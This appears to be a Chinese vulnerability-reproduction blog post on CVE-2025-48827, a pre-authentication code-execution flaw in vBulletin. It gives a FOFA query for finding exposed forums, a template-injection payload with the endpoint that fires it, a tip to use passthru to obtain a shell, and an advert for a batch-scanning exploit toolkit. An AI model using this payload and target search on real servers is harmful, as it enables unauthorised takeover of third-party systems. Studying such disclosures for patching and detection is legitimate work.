 #  vBulletin replaceAdTemplat接口存在远程代码执行漏洞CVE-2025-48827 附POC   
2025-5-30更新  南风漏洞复现文库   2025-05-29 23:38  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. vBulletin 简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
vBulletin论坛  
## 2.漏洞描述  
  
vBulletin是一个商业论坛程序。2025年5月，互联网上披露CVE-2025-48827 vBulletin replaceAdTemplat 远程代码执行漏洞，攻击者可构造恶意请求在无需登录的情况下执行任意代码控制服务器。  
  
CVE编号:CVE-2025-48827  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
vBulletin论坛  
![vBulletin replaceAdTemplat接口存在远程代码执行漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YLvpPGcLkicUiaUBMJy0lB82zzxbwMrjKicNPUoITpYb9sdfUYvrOU8NKzs2s8B7FdX2oB4TYGBWEng/640?wx_fmt=png&from=appmsg "null")  
  
vBulletin replaceAdTemplat接口存在远程代码执行漏洞  
## 4.fofa查询语句  
  
product="vBulletin"  
## 5.漏洞复现  
  
template参数的参数值：<vb:if condition='"var_dump"("tteesstt")'>  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YLvpPGcLkicUiaUBMJy0lB82dmHa1ynGWhUHrg6y5YelLa7WVchicyrpQkphPmC8OYtJyoPjKRD8c5Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
访问 https://xx.xx.xx.xx/ajax/render/ad_rce2  
var_dump("tteesstt")函数执行成功。  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YLvpPGcLkicUiaUBMJy0lB82RGTrlD9ulhLxhNyM5yAMvKB1tZNw7oTYh1kIG9ZaFu6XdS1ibrJO2SA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
这个漏洞有些函数是无法执行的，要getshell的话请使用passthru 函数  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YLvpPGcLkicUiaUBMJy0lB82o64bQjje1zmTKRDxec5dLCIBE7sxhzVrTPuAoK7qSubBT4LVlQV4Zg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YLvpPGcLkicUiaUBMJy0lB82VUxxUUd0zPJCahZ7jDA2n0YnmntIYzWMZ6tlepQzObmkBia242bS10g/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YLvpPGcLkicUiaUBMJy0lB82PopZY6nE0AnHOnfr3rZkdQZibazuJuIvfKiciaQRQu6IWFJNDEI382mtA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YLvpPGcLkicUiaUBMJy0lB82hfcAeGXeeB0sK3fdkGldoia3aJOJcian1ea1PicfPOMsHKIvC4ZnuIJIQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YLvpPGcLkicUiaUBMJy0lB828dHJYpSC017DuibUKQ6TeAlwpwwGJGumJF3mkeSuKibh3WbottQoWCjA/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
升级至最新版本。  
## 8.往期回顾  
  
  
   
  
  
  
